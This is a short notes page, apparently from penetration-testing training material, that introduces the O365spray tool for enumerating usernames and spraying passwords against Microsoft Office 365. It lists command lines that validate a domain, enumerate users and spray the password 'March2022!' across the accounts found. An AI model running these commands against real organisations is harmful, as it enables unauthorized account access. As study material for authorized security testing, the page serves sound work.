 [O365spray](https://github.com/0xZDH/o365spray) is a username enumeration and password spraying tool aimed at Microsoft Office 365 (O365) developed by [ZDH](https://twitter.com/0xzdh).
```shell-session
$ python3 o365spray.py --validate --domain msplaintext.xyz
$ python3 o365spray.py --enum -U users.txt --domain msplaintext.xyz
$ python3 o365spray.py --spray -U usersfound.txt -p 'March2022!' --domain msplaintext.xyz
```
# Useful flags
- `--count`
- `--lockout`